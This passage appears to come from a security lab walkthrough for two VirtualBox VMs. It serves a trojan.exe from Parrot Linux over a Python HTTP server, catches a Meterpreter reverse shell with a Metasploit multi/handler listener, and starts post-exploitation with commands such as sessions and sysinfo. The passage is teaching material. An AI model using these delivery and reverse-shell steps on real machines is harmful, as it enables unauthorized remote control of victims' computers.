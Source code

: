 - 💻 Generation and the generated trojan

### **Task 3: Transfer the Trojan to the Windows VM**
There are several ways to transfer the generated Trojan (`trojan.exe`) to the Windows VM:

#### Method 1: **Python HTTP Server (Recommended)**
1. Start a simple HTTP server on Parrot Linux to serve the Trojan file:
   ```bash
   cd folder_contains_the_trojan
   python3 -m http.server 8080
   ```
   - 💻 the running HTTP server
2. On the Windows VM, open a web browser and download the Trojan by navigating to:
   ```
   http://<Parrot_VM_IP>:8080
   ```
3. Save the file to the Windows machine.

- 💻 trojan.exe on the webpage and in the download folder

#### Optional Method 2: **Shared Folder**
- Set up a shared folder between the Parrot Linux and Windows VMs in VirtualBox settings to transfer the file.

---

### **Task 4: Set Up a Listener on Parrot Linux (Reverse Shell Handler)**
Before executing the Trojan, we need to set up Metasploit to listen for the connection from the Windows VM:

1. In the `Metasploit console` on Parrot Linux, set up the multi-handler:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Parrot_VM_IP>
   set LPORT 4444
   exploit
   ```
2. Execute the Trojan on the Windows VM
   1. On the Windows VM, navigate to where the `trojan.exe` file was downloaded.
   2. Run the `trojan.exe` file. This will initiate a connection back to the Parrot Linux VM.
3. When the Trojan is executed on the Windows VM, you should see a successful connection established in Metasploit, resulting in a Meterpreter session.

- 💻 the Meterpreter session

### **Task 5: Post-Exploitation of the Windows VM**
Once the Meterpreter session is active, you can perform various post-exploitation tasks:
1. **Check Active Sessions**:
   ```bash
   # ⚠️ open another terminal windows or panel and run in msfconsole
   sessions
   ```
2. **Interact with a Session**:
   ```bash
   # ⚠️ open another terminal windows or panel and run in msfconsole
   sessions -i <session_id>
   ```
   - 💻 the connected clients
3. **Common Post-Exploitation Commands**:
   - ⚠️ Run the following command in `Meterpreter` 
   - **Get victim system information**:
     ```bash
     sysinfo
     ```
